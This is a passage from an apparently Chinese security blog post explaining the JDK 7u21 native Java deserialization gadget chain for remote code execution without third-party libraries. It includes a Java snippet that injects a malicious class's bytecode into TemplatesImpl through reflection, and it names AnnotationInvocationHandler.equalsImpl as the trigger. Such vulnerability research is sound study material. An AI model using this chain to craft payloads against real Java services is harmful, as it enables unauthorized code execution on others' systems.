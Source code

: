```yaml
---
title: "7u21&8u20反序列化"
onlyTitle: true
date: 2024-9-18 22:19:57
categories:
- java
- other漏洞
tags:
- java原生RCE
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B897.jpg
---
```




仅需JDK在指定版本，有反序列化入口，但无需其他的依赖包比如CC，CB能否直接打入反序列化？

其中一个答案就是java原生反序列化链JDK7u21



# jdk7u21原生反序列化

没有CC依赖，那之前的InvokerTransformer，chainedTransformer，LazyMap等都不能使用了。

不能用InvokerTransformer，那就不能用Runtime.exec，只能看是否能动态加载字节码。进而想到TemplatesImpl

```java
public static void main(String[] args) throws Exception {
    byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\RuntimeEvil.class"));
    TemplatesImpl templatesClass = new TemplatesImpl();
    Field[] fields = templatesClass.getClass().getDeclaredFields();
    for (Field field : fields) {
        field.setAccessible(true);
        if (field.getName().equals("_bytecodes")) {
            field.set(templatesClass, new byte[][]{code1});
        } else if (field.getName().equals("_name")) {
            field.set(templatesClass, "godown");
        } else if (field.getName().equals("_tfactory")) {
            field.set(templatesClass, new TransformerFactoryImpl());
        }
    }
}
```

需要触发到templatesClass.newTransformer()

## source:equalsImpl

漏洞点：在7u21的AnnotationInvocationHandler.equalsImpl()中invoke可以反射调用函数

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240909152646822.png)
